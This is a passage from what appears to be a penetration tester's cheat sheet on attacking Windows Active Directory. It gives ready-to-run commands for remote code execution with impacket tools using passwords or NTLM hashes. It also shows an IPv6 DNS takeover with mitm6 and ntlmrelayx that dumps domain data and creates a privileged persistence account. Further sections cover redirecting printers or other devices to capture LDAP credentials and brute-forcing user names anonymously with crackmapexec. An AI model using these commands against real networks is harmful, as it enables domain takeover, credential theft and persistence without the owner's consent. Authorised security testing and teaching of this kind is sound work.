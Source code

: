 NOTE: We can also use hashes instead of password

> smbexec.py domain/username:password@IPADDRESS  
               OR
> smbexec.py domain/username@IPADDRESS -hashes FullHash   (same syntax for below)  

> wmiexec.py domain/username:password@IPADDRESS            

> psexec.py domain/username:password@IPADDRESS         



## IPV6 DNS TAKEOVER

Most of the AD networks dont have dns server setup for ipv6 and we can act as a ipv6 dns server (mitm) and can dump important information like users,groups,policies,computers ,user descriptions(might contain password etc) meaning this attack is highly critical and expose the domain sensitive information

By default every device in the network check up with ipv6 dns every 30 mins or after every restart.so we may need to wait 30 mins in real scenairo or can simulate a restart in lab env


1. First run mitm6

> mitm6 -d domainname

2. Now run ntlmrelayx

> ntlmrelayx.py -6 -t ldaps://DCIP -wh fakewpad.domain.name -l lootdir

 
 When a domain admin logs in and we are active for this attack,ntlmrelayx automatically adds a new user and assign specific high level priveleges to that user,providing us solid persistence.
 
 
 
## Passback Attacks

In this attack we target iot devices,or other devices in an organization like printers,smtp,etc. If we find a edit panel for printer setup , smtp setup etc,we can try using default credentials etc. Or if this device is connected to the LDAP service of the network it will be pointing itself to ldap server and port which is mostly on DC.so we can point the device towards our ip instead of ldap server and a port and then either listen on nc or use responder.


shttps://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/ 


## Enumerating AD users without wordlists using crackmapexec (RID bruteforce)

> crackmapexec smb  $ip -u anonymous -p '' -d domain.name --rid-brute (anonymous login)

we can also provide proper credentials for accurate info


# Enumerating AD users for kerberos attack (requires dc ip and wordlist)
